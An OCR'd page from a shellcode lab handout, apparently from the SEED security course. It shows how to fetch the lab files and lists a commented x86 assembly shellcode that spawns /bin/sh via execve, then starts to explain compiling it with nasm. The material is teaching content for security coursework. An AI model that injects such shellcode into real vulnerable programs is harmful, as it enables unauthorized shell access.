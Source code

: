 
### 2.1 Task 1.a: The Entire Process

Files needed for this lab are included in Labsetup.zip, which can be fetched by running the following commands.

```
sudo wget https://github.com/CloudLabs-MOC/CloudLabs-SEED/blob/main/Software%20Security/Shellcode/Lab%20files/Labsetup.zip 
```

```
sudo unzip Labsetup.zip
```

In this task, we provide a basic x86 shellcode to show students how to write a shellcode from scratch. Students can download this code from the lab’s website, go through the entire process described in this task. The code is provided in the following. **Note**: please do not copy and paste from this PDF file, because some of characters might be changed due to the copy and paste. Instead, download the file from the lab’s website. 

Brief explanation of the code is given in the comment, but if students want to see a full explanation, they can find much more detailed explanation of the code in the SEED book (Chapter 4.7) and also in the SEED lecture (Lecture 30 of the Computer Security course). 

Listing 1: A basic shellcode examplemysh.s

```
section .text
    global _start
        _start:
            ; Store the argument string on stack
            xor eax, eax
            push eax        ; Use 0 to terminate the string
            push "//sh"     ;                                       ➀
            push "/bin"
            mov ebx, esp    ; Get the string address
            
            ; Construct the argument array argv[]
            push eax        ; argv[1] = 0                           ➁
            push ebx        ; argv[0] points to the cmd string      ➂
            mov ecx, esp    ; Get the address of argv[]

            ; For environment variable
            xor edx, edx    ; No env variable                       ➃

            ; Invoke execve()
            xor eax, eax    ; eax = 0x
            mov al, 0x0b    ; eax = 0x0000000b
            int 0x80
```

We compile the assembly code above (_mysh.s_) using nasm, which is an assembler and disassembler for the Intel x86 and x64 architectures. The _-f elf32_ option indicates that we want to compile the code to 32-bit ELF binary format. The Executable and Linkable Format (ELF) is a common standard file format for executable file, object code, shared libraries. For 64-bit assembly code, elf64 should be used 
